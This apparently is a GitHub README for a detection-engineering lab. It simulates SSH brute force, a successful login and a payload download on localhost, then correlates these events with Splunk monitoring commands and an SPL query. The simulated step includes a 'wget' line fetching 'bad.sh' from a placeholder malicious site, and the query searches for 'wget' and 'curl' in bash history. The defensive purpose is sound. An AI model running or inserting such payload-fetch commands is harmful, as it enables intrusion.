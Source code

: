 # 🔐 Log Correlation & Detection Engineering

This project simulates a multi-stage attack chain using Linux SSH logs and bash history, showcasing how a SOC Analyst correlates
brute-force login attempts, successful access,and post-login command execution using Splunk.

---

## 🎯 Objective

Correlate these stages:
- ❌ Multiple failed SSH login attempts
- ✅ One successful login
- ⚠️ Suspicious `wget` command used to download a potential payload

---

## 🧪 Simulated Activity

### 🔹 1. SSH Brute-force (Failed)

ssh testuser@127.0.0.1
# Enter wrong password 5 times

🔹 2. SSH Success


ssh testuser@127.0.0.1
# Enter correct password

3. Suspicious Command

wget http://malicious-site.com/bad.sh

🛠️ Splunk Setup (CLI-Only)
Monitored the following log files:

# Authentication logs (already monitored)
sudo /opt/splunk/bin/splunk add monitor /var/log/auth.log -sourcetype linux_secure

# Bash command history (for wget/curl detection)
sudo /opt/splunk/bin/splunk add monitor /home/testuser/.bash_history -sourcetype bash_history

# Restart Splunk
sudo /opt/splunk/bin/splunk restart
🔎 Detection Logic (SPL)

(index=* sourcetype=linux_secure "Failed password" OR "Accepted password")

OR (index=* sourcetype=bash_history "wget" OR "curl")

| transaction user maxspan=10m

| search eventcount>=6

| table _time user host eventcount



# ✅ Outcome
Stage	Log Source

Failed logins	/var/log/auth.log

Successful login	/var/log/auth.log

wget command	.bash_history

The SPL successfully tied together all three elements, simulating a detection that would trigger in a real-world SOC for lateral movement or data staging activity.
